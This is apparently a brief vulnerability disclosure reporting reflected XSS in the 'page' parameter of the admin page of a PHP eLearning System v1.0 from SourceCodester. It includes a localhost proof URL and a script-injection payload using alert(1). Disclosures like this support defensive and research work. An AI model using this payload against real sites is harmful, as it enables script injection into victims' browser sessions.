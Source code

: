 # eLearning System – reflected XSS on (admin/?page=XX) 
# Vendor Homepage:
https://www.sourcecodester.com/php/14787/elearning-system-using-phpmysqli-source-code.html 
# Version:V1.0
Tested on: PHP, Apache, MySQL
# Affected Page:
admin/?page=XX 
On this page,page parameter is vulnerable to reflected XSS Attack 
# Proof of vulnerability:
Visit this page：http://localhost/elearning/admin/?page=student
# Payload：
？page=</script><script>alert(1)</script>
# Trigger popup：
<img width="416" alt="image" src="https://github.com/qqqyc/vuln/assets/53200267/ec3297fd-f50a-4ddd-ab5b-73d5aea23897">
